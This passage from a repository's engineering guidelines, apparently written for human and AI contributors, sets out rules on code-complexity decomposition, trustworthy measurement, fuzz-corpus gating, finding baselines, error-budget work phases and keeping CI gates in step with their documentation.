   - Always verify that resolved filesystem symlinks remain strictly confined within the workspace root (`resolved_path.is_relative_to(base_root)`), catching `(OSError, RuntimeError)` to prevent circular symlink recursion (`ELOOP`) and traversal escapes.
6. **AST Decision Weight Decomposition & Dispatch Tables**:
   - Evaluating branching constructs across AST nodes (`If`, `While`, `For`, `AsyncFor`, `ExceptHandler`, `Assert`, `IfExp`, `comprehension`, `match_case`, `BoolOp`) via iterative `isinstance` chains inflates cyclomatic complexity ($M \ge 7$).
   - Decompose node evaluation into table-driven dispatch mappings (`_DECISION_WEIGHTS: dict[type[ast.AST], Callable[[ast.AST], int]]`) paired with pure predicate helpers (`_is_wildcard_match`, `_match_case_weight`, `_comprehension_weight`, `_boolop_weight`). This guarantees $M \le 2$ and depth $\le 1$ while keeping AST weight semantics aligned with reference linters.
7. **Address Parsing & Multi-Network Policy Decomposition**:
   - Parsing non-canonical IPv4 representations (octal, hex) alongside strict standard-library addresses in network egress checks often compounds nesting depth ($depth \ge 4$) and decision complexity ($M \ge 9$).
   - Decompose resolution into distinct single-responsibility stages: string quad splitting, octet parsing (`_try_parse_octets`), range validation (`_valid_octets`), and address construction (`_parse_dotted_quad`). Encapsulate multi-network containment checks in pure predicate helpers (`_in_network_list`) to preserve $M \le 4$ and depth $\le 2$ across all security perimeter audits.
8. **AST Feature Traversal & Predicate Table Decomposition**:
   - Accumulating multi-feature counters across AST nodes by nesting inner loops over predicate dictionaries within `ast.walk` loops creates nesting depth $depth = 4$.
   - Extract node-level feature tallying into a dedicated pure helper (`_tally_node_features(node, counts)`), and isolate socket command dispatch into a shared helper (`_execute_command`). This reduces nesting depth to $\le 2$ and ensures all methods and functions remain Grade A complexity ($M \le 4$).

---

## 10a. Measuring, and Believing What You Measured

Every defect in this section was found by a measurement and survived a first, wrong reading of it. The rules are about the reading, not the instrument.

1. **A Count Is Not a Cost**:
   - A performance claim needs a **count** and a **unit cost**, and at least one of the two must be measured *in the environment under test*. A syscall count felt rigorous — it was deterministic, which the wall clock on this host is not — and led straight to "the filesystem is not the bottleneck" because 547 operations were multiplied by an unexamined intuition. A `stat` costs ~1.8ms on the virtualised mount this repository is developed on and ~0.001ms on tmpfs. It was most of the runtime.
   - Reconcile the product against the wall clock before acting. If `count × unit` does not account for what you measured, a cause is still unidentified and the fix is premature.
   - **Treat any profiler `cumtime` exceeding the wall clock as instrument error.** `cProfile` attributed 11.4s to a function inside a 2.6s run, because it sums what threads and recursion overlapped. Its ranking is a hypothesis about *where*, never evidence of *how much*. See [Observation 15](./observations/systems/15-a-count-is-not-a-cost.md).

2. **An Instrument That Answers Differently for Identical Input Is Broken**:
   - Before trusting a new detector, run it twice on an unchanged tree. The cohesion detector reported 15, 16 and 17 findings on three consecutive runs of the same files.
   - The cause was an **asymmetric relation in a symmetric algorithm**: "A shares an attribute with B" is symmetric, "A calls B" is not, and only the second direction was tested. Which cluster a method joined depended on which element `set.pop()` returned, and string hashing is randomised per process.
   - Any connectivity, clustering or equivalence computation must either use a symmetric relation or explicitly close it. Iterate `sorted()` rather than raw set order so results are reproducible, and assert stability across `PYTHONHASHSEED` values in a test.
   - Non-determinism was the symptom, not the defect. The old code was wrong in *every* ordering — 3 or 4 where the answer was 2. A metric that is merely unstable is still telling you it cannot be trusted.

3. **Every Instrument Must Share One Definition of the Corpus**:
   - Four call sites independently decided whether a path belonged to this repository and no two agreed; only one excluded `node_modules`. Installing a documentation dependency moved self-reported health from 100.0 to 91.2 CRITICAL and put a vendored package's README top of the backlog.
   - Discovery goes through [`tools/source_tree_policy.py`](./tools/source_tree_policy.py) and nowhere else. Never write an ad-hoc `.venv`/`__pycache__` exclusion list; import `is_repository_source` or `iter_source_files`.
   - Prune **during** traversal. `rglob` cannot prune, so it descends into every vendored package before discarding the result: 5.62s against 0.63s for `os.walk` on the same tree.
   - Instruments that disagree about what the corpus *is* cannot be reconciled about what is wrong with it. See [Observation 16](./observations/systems/16-the-prioritizer-is-not-under-test.md).

4. **An Error Path That Has Never Run Is Not Known to Work**:
   - The handler guarding an optional dependency referenced an undefined `logger`. It could only raise `NameError` — turning a degradation into a crash — and survived precisely because nothing had ever taken that branch.
   - Every `except` branch written to degrade gracefully needs a test that forces it. Monkeypatch the dependency to raise, then assert both that the caller survived and that the failure was reported.
   - Degrade **visibly**. A handler that swallows its error silently is indistinguishable from one that never ran, which is how this one hid.

5. **The Gate Will Catch Its Author First, Repeatedly**:
   - In one session the complexity gate flagged `listing`, `iter_source_files`, `_count_disjoint_clusters` and `_handle_sync` — every one written minutes earlier to *fix* something else. This is the normal case, not an embarrassment: re-run the gates after your own fix, before committing, and expect to decompose what you just wrote.

6. **Point the Instruments at Themselves, and Keep What Broke Them**:
   - Every oracle in this repository is a parser aimed at whatever happens to be in the tree, and every one of them is tested with inputs an author thought of. [`tools/fuzz_harness.py`](./tools/fuzz_harness.py) supplies the other kind. It asserts only what is mechanically decidable without a model of what an instrument *should* say: that it raises nothing outside its declared tolerances, answers identically for identical input, converges when it repairs, and finishes.
   - **The corpus is the gate; the search is not.** A time-boxed random search that must pass fails on the run that happened to find something and passes on the run that happened not to — neither outcome is about the commit under test. `replay` over [`artifacts/fuzz-corpus/`](./artifacts/fuzz-corpus/) is deterministic and only grows, so it gates; exploration runs on a schedule in `fuzz.yml` and publishes what it finds instead of failing a build.
   - **A property is not trusted until it has been shown to fire.** The first campaign reported nothing across 320 cases, which is indistinguishable from a harness that cannot report. Every property is driven by a deliberately broken target in `tests/test_fuzz_harness.py`, and the cross-seed check was verified by injecting a hash-order dependence and watching it caught.
   - **Measure whether the corpus reaches the instrument.** Two targets produced zero findings for 30 of 30 cases: the roadmap parser reads a grammar, not prose, and the smell quantifier's gating detectors need structures a small module does not contain. A campaign against inputs an instrument rejects at its first regex exercises one `except` and proves nothing about the code behind it. Count what each target returns before believing a clean run.
   - **The harness must not carry its own environment into the comparison.** The first cross-seed run reported all three seeds disagreeing for every target. None of it was real: the scratch directory is a fresh random name per process and appeared inside every finding's `file_path`. Normalize whatever varies for reasons that are not the subject — addresses, temporary paths, wall-clock times — or the instrument reports itself.
   - **Normalizations compose, so their order is part of the contract.** Addresses were normalized before paths, and `mkdtemp` draws its suffix from a pool containing `0`, `x` and the hex digits — so about one scratch directory in three hundred was rewritten by the address pattern, after which the path replacement no longer matched and the directory name reached the hash. It presented as a 0.3% flake that disappeared under every serial investigation, because contention raises the number of names drawn and not the odds for any one of them. Apply the most specific substitution first, and test a hostile name rather than a representative one.
   - **Confirm a divergence before reporting it, and only a divergence.** A determinism verdict taken from one sample per seed is itself a one-sample measurement. Genuine hash-order dependence is deterministic for a fixed seed and survives a second pass unchanged; a sampling artefact does not. Re-run only on disagreement, so the cost is paid by the finding rather than by the check.
   - **Store a case under a suffix nothing else reads.** A corpus of `.md` files is swept up by the documentation validator's whole-repository pass and a corpus of `.py` files by the sentinel, ruff and mypy; every fixture is then reported as a defect in the repository that keeps it. `.case` on disk, real suffix in scratch.
   - **Verify the entry fails before the fix, not only that it passes after.** Revert the repair, run `replay`, watch it exit non-zero, restore. An entry that never failed the build is a souvenir.

7. **A Suppression That Cannot Expire Is Not a Baseline**:
   - [`tools/finding_baseline.py`](./tools/finding_baseline.py) exists so a gate can be adopted by a codebase that does not pass it yet. A gate reporting hundreds of pre-existing findings at once is indistinguishable from one reporting nothing: nobody reads it, and nobody can tell which finding arrived with the change in front of them.
   - **Prune what was fixed.** An entry kept after its finding was repaired goes on suppressing that finding when it is reintroduced, so the gate stops covering code it used to cover and nothing says so. This is why long-lived whitelists end up worse than no gate. `status --strict` fails when the baseline holds an entry the oracles no longer produce, and `ci.yml` runs it.
   - **Baseline the finding, not the rule.** Identity is the `partialFingerprints` value the producing tool assigned — rule, file and subject, deliberately excluding the line number. Suppressing a whole rule or a whole file hides the next defect of that kind as well as the current one.
   - **Never baseline this repository's own findings.** §10's architectural invariants are non-negotiable; `artifacts/finding-baseline.json` is empty and [`tests/test_finding_baseline.py`](./tests/test_finding_baseline.py) asserts it stays empty. A feature whose own repository starts using it to defer violations has changed from adoption machinery into an amnesty.

---

## 11. The Closed-Loop Feedback Inversion Dynamic

When guided by continuous feedback tooling (`ResourceIterationWorkbench`, `SDLCProjectManager`, `reliability_slo.py`):

**The phase is decided by error budget, not by a binary health check.** A single unlucky iteration must not freeze proactive work, and a loop that has never once failed cannot distinguish *reliable* from *unambitious* — both look identical from inside a green run. Run the policy rather than eyeballing the score:

```bash
python3 tools/resource_iteration_workbench.py --json > .data/iteration_report.json
python3 tools/reliability_slo.py record .data/iteration_report.json --history docs/reliability/iterations
python3 tools/reliability_slo.py status --history docs/reliability/iterations   # non-zero when remediation is owed
```

Record into [`docs/reliability/iterations/`](./docs/reliability/iterations/) — the **committed** ledger — in the same commit as the work it measures. A budget lives on a rolling window of iterations, so a ledger kept only in gitignored `.data/` starts empty in every clone and every CI run, never matures, and quietly degrades the policy back to judging one iteration alone. The ledger is sharded one file per iteration so concurrent branches merge without conflict, and holds nothing but aggregate counts.

1. **Phase 1 (Reactive Remediation)** — entered when any objective's budget is `EXHAUSTED`, or is `BURNING` faster than its window elapses across at least three iterations. Focus 100% of priority on minimal, surgical fixes until the budget recovers. `invariant_compliance` carries a 1.0 target and therefore *no* budget: a single invariant breach enters this phase immediately, by design.
2. **Phase 2 (Proactive Quality Elevation)** — the default while budgets are `HEALTHY`. Spending budget below target is normal operation, not an incident:
   - Decomposing functions operating near the complexity ceiling ($7 \le M \le 10$) down to safe headroom ($M \le 6$).
   - Elevating public docstring coverage and parameter type annotations to 100%.
   - Optimizing test execution latency (sub-second test runner execution).
   - Automating whatever `toil_containment` reports as machine-fixable backlog: work `ast_refactorer.py` or `docs_validator --fix` could clear is toil, and an agent spending judgement on it is the thing SRE tells you to stop doing.
3. **Objective Review** — entered when *every* budget closes a full window completely unspent. This is a finding, not a celebration: the objectives are too loose to steer anything. Tighten the targets, or deliberately spend the risk they were reserving.
4. **Phase 3 (Continuous Self-Hardening)**: Every friction point, debugging insight, and architectural struggle is automatically ingested into [`docs/ROADMAP.md`](./docs/ROADMAP.md) and codified into `AGENTS.md`.

> [!IMPORTANT]
> **Gating objectives are not steering objectives.** The test is whether a breach means *this must not ship* or *we should work on this next*. Only defect indicators gate: `invariant_compliance` (a violated invariant) and `gate_pass_rate` (a resource failing its own gate). `feedback_latency`, `headroom_saturation` and `toil_containment` steer — they move the loop phase and never block a release. A slow suite, a function at $M = 8$, and an automatable backlog are all worth working on and none of them makes the artifact unfit. `feedback_latency` is additionally host-sensitive: `is_dir()` measured 0.764ms on a bind mount against 0.001ms on tmpfs, so gating on it would block releases for the speed of whichever machine ran them.
>
> An objective with too few valid events reports `INSUFFICIENT_DATA` rather than a ratio, because `0/1` and `0/1000` are the same number and entirely different facts.
>
> Objectives are measured as **good events over valid events**, never as an average. One pathologically slow suite or one violating module is exactly what a mean is designed to hide, and the tail is what an agent actually experiences.
4. **A Documented Gate Must Be an Executed Gate**:
   - `CONTRIBUTING.md` tells contributors which gates every pull request runs. That table is prose, and prose is the one artifact nothing executes — a gate was listed there and never wired into `ci.yml`, which is the convention-versus-enforcement gap of [Observation 08](./observations/systems/08-convention-to-mechanical-enforcement-inversion.md) reappearing inside the document describing its closure.
   - When adding a gate, wire it into `ci.yml` **and** the gate table in the same commit. [`tests/test_gate_manifest.py`](./tests/test_gate_manifest.py) fails when the two disagree, so the claim and the mechanism cannot drift apart again.
5. **One Registry Per Gate (Parallel Check Lists Always Diverge)**:
   - A validator with two entry points must register its rules in exactly one place. `docs_validator.py` kept separate check lists in `validate_file` and `validate_content`, so a rule added to one ran in tests and not in the CLI — a gate that passes because it never executed the rule.
   - When adding a rule, add it to the shared registry and assert that every entry point reports identically for the same input.
   - **A new gate that finds nothing on its first run is evidence against the gate, not for the codebase.** The `directory_map` rule reported zero findings on its first execution because it had been registered in `validate_content` and not `validate_file`; the repository was not clean, the CLI simply never ran the rule. Before believing a green first run, break something the gate should catch and confirm it fails. See [Observation 12](./observations/systems/12-gates-catch-their-author-first.md).
6. **Oracle Measurement Validity (Never Measure the Harness Instead of the Work)**:
   - A mechanical oracle must measure the artifact under judgement, never the scaffolding that invokes it. Subprocess wall-clock around `python -m pytest <file>` charges every suite a fixed ~1.7s of interpreter boot, plugin loading, and collection, which silently dominates any sub-second test body and manufactures permanent, unfixable "slow test" defects.
   - Always prefer the tool's own self-reported metric (pytest's `N passed in X.XXs` summary line, parsed via `PYTEST_SUMMARY_DURATION_RE`) over externally observed process duration, and fall back to wall-clock only when no self-report exists.
   - **Confirm a backlog item is real before working it.** Acting on a toil signal in this repository found four of five items were measurement error: modules at 97-100% coverage reported as untested because no file carried the matching name, and decorator closures counted as undocumented public API. Satisfying either would have produced pure waste that looked like progress.
   - Before acting on any feedback item, agents MUST confirm the metric is actionable: if no possible change to the target file can satisfy the threshold, the defect is in the oracle, not in the resource. Fix the oracle.
   - Report irreducible harness cost separately (`RunExecutionResult.harness_overhead_seconds`) so systemic runner inefficiency is visible as its own roadmap item rather than smeared across every resource.


